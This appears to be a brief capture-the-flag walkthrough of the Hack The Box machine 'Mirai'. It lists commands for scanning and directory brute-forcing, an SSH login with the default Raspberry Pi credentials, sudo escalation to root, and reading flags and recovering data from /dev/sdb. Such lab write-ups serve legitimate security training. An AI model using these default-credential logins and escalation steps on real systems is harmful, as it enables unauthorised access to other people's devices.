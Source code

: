 # ****Mirai****

```bash
rustscan -a 10.10.10.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/53f36f81-47ca-43ad-8798-5e5dec19eb56)

```bash
gobuster dir -w directory-list-2.3-medium.txt -u [http://10.10.10.48](http://10.10.10.48/) -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ffdc4848-0b5d-4a2c-be85-171369c50aa4)

```bash
nmap -A -p 22,53,80,1337,32400,32469 10.10.10.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5263a3cc-8384-477f-91bb-7eabe0323c24)

http://10.10.10.48/admin/index.php?login
![image](https://github.com/lufffe/Writeups/assets/90646635/8cb32f4e-c6a3-48e6-be56-10188ed73861)

![image](https://github.com/lufffe/Writeups/assets/90646635/c3314b7b-2017-42c0-979e-2ead5a3d4f56)

![image](https://github.com/lufffe/Writeups/assets/90646635/3691c423-5290-47e9-911f-628803f7dd91)

```bash
ssh pi@10.10.10.48 
```
password: raspberry

```bash
cat user.txt
```

```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/96f15caa-5ec4-4b1b-9b3f-77cedf5f42f3)

```bash
sudo su
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6f5c6af4-28d6-4752-b8e5-cf126b8b85de)

```bash
cat damnit.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/bc47bb52-b339-41b5-acb3-b6e453f69cb8)

```bash
strings /dev/sdb
```

